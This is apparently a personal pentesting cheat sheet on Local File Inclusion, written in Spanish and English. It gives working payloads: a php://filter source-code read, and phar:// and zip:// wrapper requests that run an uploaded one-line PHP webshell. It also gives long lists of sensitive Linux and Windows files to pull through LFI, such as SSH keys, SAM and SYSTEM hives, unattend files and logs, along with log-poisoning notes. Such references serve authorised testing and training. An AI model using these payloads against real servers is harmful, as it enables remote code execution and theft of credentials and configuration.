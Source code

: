 ```yaml
---
title: Local File Inclusion
layout: default
---
```


[PHP Wrappers - Deep Hacking](https://deephacking.tech/php-wrappers-pentesting-web/)

```
?file=php://filter/convert.base64-encode/resource=index
```

https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html

[Exploiting phar stream wrapper. There are a few protocols available… | by Rudra Sarkar | Medium](https://rudrasarkar.medium.com/exploiting-phar-stream-wrapper-d2140592c6e7)

```http
GET /index.php?file=phar://uploads/upload_1757759303.zip/shell&cmd=id 
```


Abriendo un zip:
```
// upload a php shell then use zip wrapper for reverse shell  
$ cat simple_cmd.php  
<?php system($_REQUEST["cmd"]); ?>  
  
  
// browse to the uploaded php webshell using Zip Wrapper LFI  
http://192.168.226.229/index.php?file=zip://uploads/upload_1714872711.zip%23simple_cmd&cmd=id
```

# Interesting Files 4 LFI
# Linux

```
.ssh/authorized_keys
```

```
/etc/nginx/nginx.conf
```

```
/etc/nginx/sites-available
```

```
/etc/nginx/sites-enable
```

```
/etc/mysql/my.cnf
```

```
/etc/httpd/httpd.conf
```

```
/etc/oracle2/oracle2.conf
```

```
/proc/net/arp
```

```
/proc
```

```
puertos abiertos
```

```
/etc/my.cnf
```

```
/etc/os-release
```

```
/etc/apache2/sites-enabled/000-default.conf
```

```
/etc/mysql -> moodle-key.conf
```

```
/var/log/apache2/access.log
```

```
/var/log/auth.log
```

```
/var/log/httpd-access.log
```

```
/etc/apache2/conf-available/security.conf
```

```
/etc/apache2/sites-enabled/vhost.conf
```

Ver lo que hace el DockerFile del repo para ver que archivos de configuración mueve

# Windows

```
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
c:/boot.ini
C:/boot.ini
C:/Documents and Settings/Administrator/NTUser.dat
c:/inetpub/logs/logfiles
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
c:/inetpub/wwwroot/global.asa
C:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php/php.ini
C:/php4/php.ini
C:/php5/php.ini
C:/Program Files (x86)/Apache Group/Apache/conf/access.log 
C:/Program Files (x86)/Apache Group/Apache/conf/error.log 
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf 
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf 
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml 
C:/Program Files (x86)/xampp/apache/conf/httpd.conf 
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log 
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files/MySQL/MySQL Server 5.1/my.ini 
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
C:/Users/Administrator/NTUser.dat
C:/Windows/debug/NetSetup.log 
C:/Windows/Panther/Unattend/Unattended.xml 
C:/Windows/Panther/Unattended.xml 
C:/WINDOWS/php.ini
C:/windows/repair/sam
C:/Windows/repair/security
C:/Windows/repair/software  
c:/windows/repair/system
C:/Windows/repair/system
C:/Windows/system32/config/AppEvent.Evt 
C:/Windows/system32/config/default.sav 
C:/Windows/system32/config/regback/default 
C:/Windows/system32/config/regback/sam 
C:/Windows/system32/config/regback/security 
C:/Windows/system32/config/regback/software
C:/Windows/system32/config/regback/system 
C:/Windows/system32/config/SecEvent.Evt 
C:/Windows/system32/config/security.sav 
C:/Windows/system32/config/software.sav 
C:/Windows/system32/config/system.sav 
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/System32/inetsrv/config/applicationHost.config 
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml 
C:/Windows/win.ini 
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log 
C:/xampp/apache/logs/error.log 
C:\xampp\htdocs\config.php
```

**httpd.conf para ver si se puede hacer log poisoning**
```
C:/xampp/apache/conf/httpd.conf
C:/wamp64/bin/apache/apache2.4.54/conf/httpd.conf
C:/wamp64/bin/apache/apache2.4.53/conf/httpd.conf
C:/wamp64/bin/apache/apache2.4.52/conf/httpd.conf
C:/wamp64/bin/apache/apache2.4.51/conf/httpd.conf
C:/wamp64/bin/apache/apache2.4.50/conf/httpd.conf
C:/laragon/bin/apache/httpd-2.4.54/conf/httpd.conf
C:/laragon/bin/apache/httpd-2.4.53/conf/httpd.conf
C:/laragon/bin/apache/httpd-2.4.52/conf/httpd.conf
C:/laragon/bin/apache/httpd-2.4.51/conf/httpd.conf
C:/laragon/bin/apache/httpd-2.4.50/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Apache24/conf/httpd.conf
```

SI no se ha configurado algo así, entonces no irá:

```bash
AddType application/x-httpd-php .log
```

